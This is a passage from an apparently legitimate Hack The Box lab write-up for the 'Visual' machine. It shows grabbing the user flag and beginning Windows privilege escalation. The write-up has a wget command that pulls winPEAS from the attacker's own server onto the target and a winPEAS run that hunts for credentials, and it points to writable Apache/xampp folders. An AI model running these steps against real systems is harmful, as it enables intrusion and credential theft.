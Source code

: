 ![whoami command on target](/images/HTB-Visual/target-whoami.png)

We can check our privileges with `whoami /priv`.
![privilege on target machine](/images/HTB-Visual/target-priv.png)

I go to the user main directory with `cd \Users\enox` and I use `ls` to see the different subdirectories.

![directories listing on target](/images/HTB-Visual/target-directories.png)

I check the content of the `Desktop` directory with `dir Desktop` and I can see the `user.txt` flag. Use `cat user.txt` to check its content.

![User flag](/images/HTB-Visual/Visual-user-flag.png)

### Lateral Movement

To find privilege escalation paths let's use [winPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20240223-ab2bb023) . Get `WinPEASany.exe` and store it in the repository that you are using for your python server.

![winPEAS location](/images/HTB-Visual/winPEAS-location.png)

Get it to the target with `wget`.
```
wget http://10.10.14.222:8000/winPEASany.exe -o wpany.exe
```

> Use your IP address and replace the port by the one you are using for your server

Verify that the file is on the target.

![winPEAS location on target](/images/HTB-Visual/winPEAS-on-target.png)

You can check the options of winPEAS with `./wpany.exe -h`.

![winPEAS options](/images/HTB-Visual/winpeas-options.png)

Run it with the options you want, Because I want a somewhat thorough enumeration I am using this command
```
./wpany.exe domain systeminfo userinfo processinfo servicesinfo applicationsinfo networkinfo windowscreds browserinfo filesinfo eventsinfo quiet
```

It seems that we have permissions to the directory containing the Apache HTTP Server service.

![Apache Server HTTP](/images/HTB-Visual/ApacheServerHTTP.png)

Going through the output you can notice that you have full access to the `xampp` directory (remember this is a PHP application), the same folder storing Apache. 

![xampp directory](/images/HTB-Visual/xampp-permissions.png)

We can attempt to learn more about `ApacheHTTPServer` with
```
Get-CIMInstance -Class Win32_Service -Filter "Name='ApacheHTTPServer'" | Select-Object *
```

